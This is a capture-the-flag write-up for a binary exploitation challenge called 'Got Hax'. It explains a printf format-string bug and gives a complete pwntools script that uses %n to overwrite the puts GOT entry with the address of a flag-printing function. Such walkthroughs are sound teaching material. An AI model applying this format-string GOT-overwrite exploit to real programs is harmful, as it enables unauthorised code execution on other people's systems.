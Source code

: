 ```yaml
---
slug: got_hax
title: Got Hax
authors: [nguyen]
tags: [Binary Exploitation]
---
```


Got Hax

<!--truncate-->

## The Challenge

File can be downloaded [here](/files/got_hax/got_hax) (Right click and open in new tab).

The goal of this challenge is to get the flag.

## Analysis

I opened the executable in ghidra and found the function `get_your_flag`. It reads a key file and prints the flag.

In `main`, there is a printf vulnerability. A printf call is made using a user provided argument on the command line. If we can overwrite the GOT address for `puts` to be the address for `get_your_flag`, then we will be able to obtain the flag.

I ran the executable and sent several `%p`s as input for printf. I was able to view addresses on the stack and determined that the 6th value was the one that could be overwritten because it is the ASCII value for %p. We are writing this value to the stack.

![p output](/img/got_hax/initial_test.png)

## The Solve

I used pwntools to get the `puts` GOT address and replace it with `get_your_flag` using printf's %n vulnerability.

```python
#!/usr/bin/env python3

"""
Toast's submission for the challenge Got Hax.

This script can be used in the following manner:
python3 ./solve.py

Returns:
    The flag to solve the challenge.
"""

from pwn import *

exe = ELF("./got_hax")

context.binary = exe
context.log_level = 'info'
context.terminal = ['gnome-terminal', '-e']

# Overwrite puts GOT with flag_function
puts_plt = exe.got['puts']
get_flag = exe.symbols['get_your_flag']

def conn():
    '''Establish the connection to the process
    '''

    exploit = p32(puts_plt)
    exploit += b'%' + str(get_flag - 0x4).encode() + b'x%6$n'
    io = process([exe.path, exploit])
    return io


def main():
    '''Return the flag.
    '''

    with conn() as io:
        io.sendline(b'1')
        io.recvuntil(b'You GOT hax! Your flag is ')
        flag = io.recv()
        print(f"Flag is : {flag}")


if __name__ == '__main__':
    main()
```
